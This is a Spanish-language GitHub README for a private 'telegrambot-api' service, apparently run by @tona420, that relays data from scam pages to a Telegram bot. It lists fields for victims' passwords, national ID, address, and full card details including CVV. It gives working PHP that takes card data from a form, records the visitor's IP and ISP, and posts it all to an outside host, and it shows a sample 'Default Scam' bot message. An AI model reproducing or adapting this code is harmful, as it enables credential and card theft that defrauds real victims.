 # telegrambot-api

## ¿Qué es?
Es una HTTP API en desarrollo creada por @tona420, la cual mejora, acelera y hace mas sencilla la comunicación a un bot de Telegram. 

## ¿Es de uso público?
Por el momento, la API es privada y solo pocos usuarios tienen acceso a ella, pero no te preocupes, muy pronto se hará pública y todos podran acceder y usarla.

## ¿Cómo se usa?
Si no eres programador, y quieres usar la api de una manera sencilla y sin complicaciones, te recomiendo que copies y pegues el siguiente código en tu archivo de comunicación:
```php

<?php

$data = array(
    'apikey' => '',
    'token' => '', 
    'chatid' => ''
);

$result = file_get_contents('http://c2271028.ferozo.com/api', false, stream_context_create(array('http' => 
array('header'  => "Content-type: application/x-www-form-urlencoded\r\n",'method'  => 'POST','content' => http_build_query($data)))));

?>

```
### ¿Qué hace esto?
Es muy sencillo, éste código lo que hace es tomar los datos y enviarlos a la API, se procesan y se envian a telegram, ellos se encargan de mandartelos a traves del bot que creaste.

### ¿Qué datos puedo enviar?
Estos son los datos que puedes enviar mediante la API:

- 'apikey' = Es la llave para poder acceder a la API. _*
- 'token' = Es el token de tu bot de telegram. _*
- 'chatid' = Es el ID de tu usuario de telegram. _*
- 'scam' = El nombre de tu scam.
- 'ip' = La IP del usuario.
- 'isp' = El ISP del usuario.
- 'correo' = El correo del usuario.
- 'usuario' = El usuario.
- 'clave' = La clave del usuario.
- 'dni' = El DNI del usuario.
- 'ccname' = El titular de la tarjeta.
- 'ccnum' = Los digitos de la tarjeta.
- 'ccven' = La fecha de vencimiento de la tarjeta.
- 'cccvv' = El código de seguridad de la tarjeta.
- 'provincia' = La provincia del usuario.
- 'localidad' = La localidad del usuario.
- 'postal' = El Código Postal (ZIP) del usuario.
- 'domicilio' = El domicilio del usuario.
- 'telefono' = El teléfono del usuario.

**Los modulos marcados con * son obligatorios**

### Ejemplo
```php

<?php

$cardName = $_POST['card-name'];
$cardNumbers = $_POST['card-number'];
$cardExpiration = $_POST['card-expiration'];
$cardCvv = $_POST['card-cvv'];

$ip = getenv("REMOTE_ADDR");
$isp = gethostbyaddr($_SERVER['REMOTE_ADDR']);

$data = array(
    'apikey' => 'apikey',
    'token' => '10101010101:Adk4mfD', 
    'chatid' => '160043220454',
    
    'ip' => $ip, 
    'isp' => $isp,
    
    'ccname' => $cardName,
    'ccnum' => $cardNumbers,
    'ccven' => $cardExpiration,
    'cccvv' => $cardCvv
);

$result = file_get_contents('http://c2271028.ferozo.com/api', false, stream_context_create(array('http' => 
array('header'  => "Content-type: application/x-www-form-urlencoded\r\n",'method'  => 'POST','content' => http_build_query($data)))));

?>

```
Mensaje del bot:
```
=====+ Default Scam - @tona420 +=====

Datos de conexión: 
IP: xxx
ISP: xxx
=== Datos Default Scam ===

Titular: Raul Hernandez 
Digitos: 1234 5678 9123 4567 
Vencimiento: 01/11 
CVV: 999 

=====+ @tona420 - dd/mm/yyyy +=====
```

## Contacto
Puedes contactarme mediante telegram @tona420. ;)
